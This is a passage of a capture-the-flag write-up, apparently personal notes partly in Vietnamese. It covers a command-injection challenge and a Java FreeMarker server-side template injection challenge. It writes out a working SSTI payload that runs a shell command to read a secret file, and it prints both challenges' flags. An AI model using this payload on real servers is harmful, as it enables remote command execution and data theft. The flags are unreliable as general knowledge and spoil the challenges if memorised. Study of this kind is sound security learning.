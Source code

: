 ```

if ($out[1]=="3")
{
echo "Ping OK";
}
elseif ($out[1]=="0")
{
echo "Ping NOK";
}
else
{
echo "Syntax Error";
}
}
?>
</pre>
</body>
</html>
```

![image](https://hackmd.io/_uploads/r1LYpS0yJx.png)

flag: `Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!`

## Java - Server-side Template Injection

![image](https://hackmd.io/_uploads/B1SCprCkkg.png)

![image](https://hackmd.io/_uploads/H1bxRHR1ye.png)

![image](https://hackmd.io/_uploads/ByvMRSRyyl.png)

thử cái được luôn

![image](https://hackmd.io/_uploads/Sy2_1U0Jyl.png)

nó là free maker của java

https://portswigger.net/research/server-side-template-injection

`nickname=<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }`

![image](https://hackmd.io/_uploads/HkeF3yU0J1l.png)

flag: `B3wareOfT3mplat3Inj3ction`

## JWT - Public key

## JWT - Header Injection

## Local File Inclusion
